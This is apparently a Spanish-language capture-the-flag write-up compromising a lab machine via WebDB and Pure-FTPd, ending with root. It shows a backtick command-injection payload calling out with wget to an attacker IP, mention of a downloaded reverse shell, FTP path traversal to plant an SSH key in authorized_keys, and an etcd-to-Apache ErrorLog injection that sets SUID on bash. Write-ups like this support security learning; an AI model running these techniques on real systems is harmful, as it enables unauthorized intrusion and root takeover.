


Resumen de Explotación
La máquina expone un servidor FTP (Pure-FTPd), SSH y un servidor web Apache. Una aplicación web permite registrar cuentas que provisiona automáticamente credenciales FTP y un virtual host personal. Al explorar los virtual hosts encontramos WebDB, un IDE de bases de datos que tiene acceso a la base de datos de Pure-FTPd y que contiene una vulnerabilidad de inyección de comandos en el parámetro password de su endpoint SSH.
Sin embargo, la vía principal de acceso inicial pasa por abusar del propio WebDB para modificar el directorio home de nuestro usuario FTP mediante path traversal, apuntando directamente a /home/tyrell/.ssh/ y cambiando el UID/GID al del usuario real del sistema. Esto nos permite descargar el fichero authorized_keys existente, añadir nuestra clave pública SSH y volver a subirlo, obteniendo acceso directo como tyrell.
Una vez dentro, descubrimos que el sistema usa etcd como almacén de configuración y remco como proceso de automatización que genera ficheros de configuración de Apache a partir de plantillas. Remco observa la clave /customers en etcd y regenera el fichero de virtual hosts de Apache cada vez que detecta un cambio, reiniciando el servicio. Tenemos permisos de escritura en etcd, así que inyectamos una directiva ErrorLog maliciosa con un comando a ejecutar usando la sintaxis de piped logging de Apache. En el siguiente ciclo de watch, remco escribe la config, Apache la carga y ejecuta el comando como root, añadiendo el bit SUID a /bin/bash y dándonos acceso root completo.
Reconocimiento Inicial
Empezamos con un escaneo nmap para identificar los servicios expuestos en la máquina:
PORT STATE SERVICE VERSION
21/tcp open ftp Pure-FTPd
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 13:98:54:52:d3:7b:ae:32:6a:33:6f:18:a3:5a:27:66 (ECDSA)
|_ 256 2e:d5:86:25:c1:6b:0e:51:a2:2a:dd:82:44:a6:00:63 (ED25519)
80/tcp open http Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Page moved.
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelTenemos FTP en el puerto 21, SSH en el 22 y Apache en el 80. Intento conectarme al FTP de forma anónima o con credenciales por defecto:
ftp 10.129.234.158Connected to 10.129.234.158.
220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-You are user number 1 of 50 allowed.
220-Local time is now 10:37. Server port: 21.
220-This is a private system - No anonymous login
220-IPv6 connections are also welcome on this server.
220 You will be disconnected after 15 minutes of inactivity.
Name (10.129.234.158:asd): asd
331 User asd OK. Password required
Password:
530 Login authentication failedEl FTP está securizado y no acepta login anónimo. Vale la pena notar que el banner indica que se aceptan conexiones IPv6, detalle que podría ser relevante más adelante. Pasamos a enumerar la web.
Enumeración Web
Haciendo fuzzing sobre la web del puerto 80 encuentro los siguientes ficheros relevantes:
200 GET http://10.129.234.158/attribution.php
200 GET http://10.129.234.158/signup.php
200 GET http://10.129.234.158/info.php
200 GET http://10.129.234.158/index.php
200 GET http://10.129.234.158/index.html
http://10.129.234.158/get-credentials-please-do-not-spam-this-thanks.php => signup.phpEn /info.php hay una salida completa de phpinfo(), que me revela información útil: la web reside en /var/www/html/ y veo que el servidor tiene asociado el dominio ten.vl, que añado a mi /etc/hosts.
Registro de cuenta y provisión automática de FTP
La página /signup.php me llama la atención: muestra un formulario de registro.

Al enviar el formulario, la petición va a /get-credentials-please-do-not-spam-this-thanks.php. Tras unos segundos, recibo la respuesta:
Your personal account is ready to be used:
Username: ten-3e21f664
Password: cbea4bb0
Personal Domain: asd.ten.vl
You can use the provided credentials to upload your pages via ftp://ten.vl.El sistema ha provisionado automáticamente unas credenciales FTP y un virtual host personal en asd.ten.vl. Me conecto al FTP con estas credenciales y compruebo el virtual host, que tiene directory listing activo. La web incluye un aviso relevante:
"we allow old-school static HTML pages ONLY. Also we can't allow .htaccess files anymore - for obvious reasons."
Intento subir una webshell PHP, pero el código PHP aparece comentado en la respuesta — el servidor no ejecuta PHP en estos virtual hosts. Intentar subir un .htaccess directamente también falla:
553 Prohibited file name: .htaccessEl FTP filtra este nombre de fichero explícitamente, así que este vector no tiene salida directa.
Descubrimiento de Virtual Hosts — WebDB
Ahora que sé que hay virtual hosting, hago fuzzing de subdominios sobre ten.vl y encuentro otro host además del mío:
asd.ten.vl Status: 200 [Size: 745]
webdb.ten.vl Status: 200 [Size: 1685]En webdb.ten.vl hay una instancia de WebDB (docs), un IDE web para bases de datos. Al entrar, hay un botón de guess credentials que me loga automáticamente con:
user : pa55w0rdDentro veo la base de datos de Pure-FTPd con una tabla de usuarios. El registro de mi usuario muestra, entre otros campos, una columna dir con el valor /srv/ten-3e21f664/./, y columnas uid y gid con valores superiores a 22000. Esto significa que el directorio raíz del FTP es configurable directamente desde esta base de datos.
Vulnerabilidad RCE en WebDB (vía alternativa)
Antes de explotar la vía de path traversal, investigo el código fuente de WebDB. Encuentro una función de sanitización de argumentos bash bastante deficiente:
shellEscape(arg, doubleQuoted = false) {
if (doubleQuoted) {
return arg.replace(/(["])/g, "\\$1");
}
return arg.replace(/([$!'"();`*?{}[\]<>&%#~@\\])/g, "\\$1");
}Cuando doubleQuoted es true, la función prácticamente no sanitiza nada — solo escapa comillas dobles. Esto es especialmente grave porque se usa en el endpoint /api/server/connect con el parámetro password de una conexión SSH:
if (connection.ssh.password) {
forward = await bash.runBash(
`sshpass -p "${bash.shellEscape(connection.ssh.password, true)}" ${common} ${uri}`
);
}El payload viaja dentro de un objeto JSON en el cuerpo de la petición al endpoint:
{
"ssh": {
"port": 22,
"user": "paco",
"host": "localhost",
"password": "`wget 10.10.14.142`"
}
}Estando en escucha en el puerto 80 recibo un hit inmediatamente, confirmando la ejecución de comandos:
10.129.234.158 - - "GET / HTTP/1.1" 200 -Cambiando el payload por una reverse shell descargada y ejecutada al vuelo, consigo una shell como root en un contenedor. No obstante, el entorno es un contenedor con poco contenido relevante — esta parece ser una vía alternativa, no la principal.
Acceso Inicial — Path Traversal FTP + Inyección en authorized_keys
Volviendo a la base de datos de WebDB, pruebo a modificar la columna dir del usuario FTP directamente desde el IDE. Al intentar apuntar a un directorio arbitrario me aparece el siguiente error:

Sin embargo, usando path traversal con el valor /srv/.././ el cambio se acepta. Ahora cuando me conecto por FTP puedo navegar desde la raíz del sistema de ficheros. Con cd y lectura de ficheros puedo confirmar la existencia del usuario tyrell:
tyrell:x:1000:1000:Tyrell W.:/home/tyrell:/bin/bashEl siguiente paso es claro: modifico el campo dir a /srv/../home/tyrell/.ssh y cambio también el uid y gid al valor 1000 (el de tyrell). De esta forma el proceso FTP opera con la identidad del usuario real del sistema y tiene acceso a su directorio .ssh.
Al reconectar por FTP veo que hay un fichero authorized_keys con dos entradas. Lo descargo, añado mi clave pública SSH y lo vuelvo a subir:
# Descargamos el authorized_keys existente
get authorized_keys
# Añadimos nuestra clave pública al fichero
echo "ssh-ed25519 AAAA...mi_clave_publica..." >> authorized_keys
# Lo subimos de vuelta
put authorized_keysAhora me conecto directamente por SSH como tyrell y obtengo la flag de usuario.
ssh tyrell@10.129.234.158Enumeración Post-Acceso — etcd y remco
Dentro de la máquina, enumero los puertos TCP internos:
tcp LISTEN 127.0.0.1:2380 (etcd peer)
tcp LISTEN 127.0.0.1:2379 (etcd client)
tcp LISTEN 127.0.0.1:3306 (MySQL)
tcp LISTEN 127.0.0.1:22071
tcp LISTEN 127.0.0.1:4001Revisando ps -fauxww veo que hay contenedores en marcha y que se está usando etcd, un almacén key-value distribuido típicamente usado en clústeres como Kubernetes (https://etcd.io/). También veo este proceso que no reconozco de inmediato:
root 987 0.0 0.6 733880 24956 ? Ssl 0:05 /usr/local/sbin/remcoInvestigo remco:
remco --helpUsage of remco:
-config string
path to the configuration file (default "/etc/remco/config")
-onetime
run templating process once and exit
-version
print version and exitEs una herramienta de gestión de configuración basada en plantillas que puede observar backends de clave-valor como etcd. Leo su configuración:
cat /etc/remco/configlog_level = "info"
log_format = "text"
[[resource]]
name = "apache2"
[[resource.template]]
src = "/etc/remco/templates/010-customers.conf.tmpl"
dst = "/etc/apache2/sites-enabled/010-customers.conf"
reload_cmd = "systemctl restart apache2.service"
[resource.backend]
[resource.backend.etcd]
version = 3
nodes = ["http://127.0.0.1:2379"]
keys = ["/customers"]
watch = true
interval = 5Y la plantilla que usa:
cat /etc/remco/templates/010-customers.conf.tmpl{% for customer in lsdir("/customers") %}
{% if exists(printf("/customers/%s/url", customer)) %}
<VirtualHost *:80>
ServerName {{ getv(printf("/customers/%s/url",customer)) }}.ten.vl
DocumentRoot /srv/{{ customer }}/
</VirtualHost>
{% endif %}
{% endfor %}El flujo es el siguiente: remco observa el prefijo /customers en etcd. Cada vez que detecta un cambio, renderiza la plantilla generando un fichero de virtual hosts de Apache en /etc/apache2/sites-enabled/010-customers.conf y después ejecuta systemctl restart apache2.service como root. Es efectivamente un proceso privilegiado cíclico — similar a un cron job.
Verifico que puedo leer y escribir en etcd:
ETCDCTL_API=3 etcdctl --endpoints=http://127.0.0.1:2379 get / --prefix/customers/ten-3e21f664/url
asdEscalada de Privilegios — Inyección de directiva ErrorLog en Apache
La clave del ataque es que el valor de la URL del cliente se inserta directamente en la plantilla sin ningún tipo de sanitización. Esto nos permite romper el bloque <VirtualHost> e inyectar directivas de Apache arbitrarias.
Primero hago pruebas con CustomLog usando la sintaxis de piped logging de Apache, pero me rompe los virtual hosts y el comando no se ejecuta. Pruebo entonces con ErrorLog, que también soporta piped logging según la documentación oficial, y funciona.
Inyecto una directiva ErrorLog que llama a chmod para añadir el bit SUID a /bin/bash:
ETCDCTL_API=3 etcdctl --endpoints=http://127.0.0.1:2379 put /customers/ten-erwerw/url 'xdd.ten.vl
ErrorLog "|/usr/bin/chmod u+s /usr/bin/bash"
#'Tras el siguiente ciclo de watch de remco (máximo 5 segundos), el fichero de configuración generado queda así:
<VirtualHost *:80>
ServerName xdd.ten.vl
ErrorLog "|/usr/bin/chmod u+s /usr/bin/bash"
#.ten.vl
DocumentRoot /srv/ten-erwerw/
</VirtualHost>Apache se reinicia con esta configuración, lo que provoca que ejecute el comando del ErrorLog como root. Compruebo el resultado:
ls -lah /bin/bash-rwsr-xr-x 1 root root 1.4M Mar 14 2024 /bin/bashEl bit SUID está activo. Ejecuto bash con el flag -p para preservar el UID efectivo y obtener una shell root:
bash -pbash-5.1# whoami
rootAcceso root conseguido. Recuperamos la flag del sistema.